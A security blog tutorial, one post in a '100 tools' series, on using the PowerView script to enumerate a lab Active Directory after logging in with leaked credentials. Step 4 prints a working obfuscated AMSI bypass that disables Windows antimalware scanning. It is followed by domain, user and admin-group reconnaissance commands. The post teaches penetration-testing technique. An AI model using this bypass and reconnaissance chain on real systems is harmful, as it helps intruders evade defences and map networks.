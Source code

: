 ```yaml
---
title:  "Day 53 - PowerView - 100 tools in 100 days!"
excerpt: "In this post, I will show you the tool PowerView and how it works."
mathjax: true
layout: post
categories:
    -- github
    -- website
---
```


1 . Introduction
<br>
2 . My Setup
<br>
3 . What is PowerView?
<br>
4 . Why use PowerView?
<br>
5 . How to use PowerView?
<br>
6 . Summary

---

## This post is designed to introduce you to the tool PowerView.

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/powerview/powerview0.png)

# <span style="color:red">***Disclaimer***</span> : **Please only use PowerView for professional and educational reasons. Do not use this tool for nefarious or malicious reasons.**

---

### 1. **Introduction**

Welcome to the **fifty-third** blog post of 100 tools in 100 days.<br> 

Find **PowerView** @ GitHub [here](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1).

PowerView was created by Will Schroeder (@harmj0y) find him at:

[GitHub](https://github.com/HarmJ0y)

[LinkedIn](https://www.linkedin.com/in/willschroeder/)

[Twitter](https://twitter.com/harmj0y)


---

### 2. **My Setup**

For running the PowerView tool, I used Kali Linux in a VMware Workstation 16 Player virtualized environment.

For my victim network I am running a virtualized Active Directory Domain Controller and Windows 10 Enterprise Edition user in a VMware Workstation 16 Player virtualized environment. 

---

### 3. **What is PowerView?**

PowerView is an enumeration PowerShell script which allows a user to discover and identify various aspects of an Active Directory.

---

### 4. **Why use PowerView?**

PowerView is an initial environment reconnaissance tool for security researchers. 

Reconnaissance occurs at various stages of the penetration testing process. 

This particular initial reconnaissance would be after authenticating as a user on an Active Directory domain. 

Therefore, this reconnaissance phase should not be confused with the overall initial discovery reconnaissance phase where you are determining IP addresses, domain names, and services using tools like Nmap. 

PowerView allows a researcher to find other users, domain admins, computers, groups, shares, Group Policies, domain trusts, and much more just as a regular user. 

---

### Before moving forward:

 - I am using a virtualized AD network with a Domain Controller and one user signed in. 
 - For these examples I had to relax Firewall settings.
 - I am using OpenSSH server on the users computer to connect to. 
 - Prior to this point in the attack chain I completed full enumeration of the network and gained access to leaked credentials for the user.
 - Not every active directory attack will function the same, and likely you would not find an environment where firewall solutions are relaxed.
 - I used BadBlood to automate the creation of my Active Directory, you can do the same by visiting the BadBlood page [here](https://github.com/davidprowe/BadBlood).

### 5. **How to use PowerView?**

It is important to remember that PowerView is a ps1 script that needs to be on the users device to run. I will go through the steps I took to securely copy the script to the victim device, execute the script via an SSH terminal established from leaked credentials, and some of the scripts functions that can be used for further pivoting and potential privilege escalation. 

Ensure you have [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) downloaded to your attacking device.

    Step 1:
    Securely copy the powershell script using the following command:

    scp PowerView.ps1 <USERNAME>@<DOMAIN>:<PATH TO DOWNLOAD TO>

<br>

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/powerview/powerview1.png)

    Step 2:
    SSH into the victim device using the leaked credentials:

    ssh <USERNAME>@<DOMAIN>

<br>

    Step 3:
    Enter the following command to upgrade to a PowerShell terminal:
    
    powershell -ep RemoteSigned

<br>

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/powerview/powerview1a.png)

    Step 4:
    Enter the following command to bypass Windows Antimalware:

`S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )`

<br>

You can read more about this Antimalware Scan Interface bypass [here](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell).

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/powerview/powerview1b.png)

    Step 5:
    Navigate to the file path where you securely copied the PowerView.ps1 file and enter the following command:

    . .\PowerView.ps1

<br>

You likely will not get a response back from executing PowerView.ps1 which is normal. 

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/powerview/powerview2.png)

    Step 6:
    First lets get the list of users in the environment (note if you have a lot of users this will spam your terminal):

    Get-NetUser

<br>

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/powerview/powerview3.png)

    Step 7:
    View the properties of the current domain by entering:

    Get-NetDomain

<br>

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/powerview/powerview4.png)

    Step 8:
    View members of the group "Domain Admins" by entering the following:

    Get-NetGroup

    When prompted for identity 1 enter Domain Admins

    When prompted for identity 2 press enter

<br>

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/powerview/powerview6.png)


### 6. **Summary**

Not all PowerView commands work for every active directory environment, however, many of the options in PowerView are a great place to start when enumerating active directory during your environment reconnaissance. 

I hope you enjoyed this blog post.

Thanks for reading!<br>

If you have suggestions for what tool to cover next, [contact](mailto:matthew.o.mccorkle@gmail.com) me!
